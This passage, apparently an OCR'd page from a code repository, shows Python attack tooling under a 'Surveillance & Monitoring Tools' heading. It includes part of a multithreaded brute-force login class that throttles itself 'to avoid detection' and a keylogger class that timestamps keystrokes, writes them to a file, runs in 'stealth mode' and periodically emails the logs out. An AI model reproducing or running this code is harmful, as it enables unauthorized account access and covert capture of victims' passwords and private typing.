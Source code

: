 ```python
            print(f"[!] Connection error: {e}")
            return False
    
    def parallel_bruteforce(self):
        """Execute parallel brute force attack"""
        with ThreadPoolExecutor(max_workers=self.threads) as executor:
            futures = []
            for username in self.usernames:
                for password in self.passwords:
                    future = executor.submit(self.attempt_login, username, password)
                    futures.append(future)
                    
                    # Rate limiting to avoid detection
                    time.sleep(0.1)
            
            # Wait for all attempts to complete
            concurrent.futures.wait(futures)
```

### 🕵️ Surveillance & Monitoring Tools

#### Keylogger Implementation
```python
class AdvancedKeylogger:
    def __init__(self, log_file="keylog.txt", email_interval=3600):
        self.log_file = log_file
        self.email_interval = email_interval
        self.logged_data = []
        self.start_time = time.time()
    
    def on_key_press(self, key):
        """Handle key press events"""
        try:
            current_time = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
            if hasattr(key, 'char') and key.char is not None:
                self.logged_data.append(f"[{current_time}] {key.char}")
            else:
                self.logged_data.append(f"[{current_time}] {str(key)}")
            
            self.write_to_file()
            
            # Send logs via email periodically
            if time.time() - self.start_time > self.email_interval:
                self.send_logs_email()
                self.start_time = time.time()
                
        except Exception as e:
            logging.error(f"Keylogger error: {e}")
    
    def start_logging(self):
        """Start keylogger in stealth mode"""
        print("[+] Keylogger started (Press Ctrl+C to stop)")
        with keyboard.Listener(on_press=self.on_key_press) as listener:
            listener.join()
```
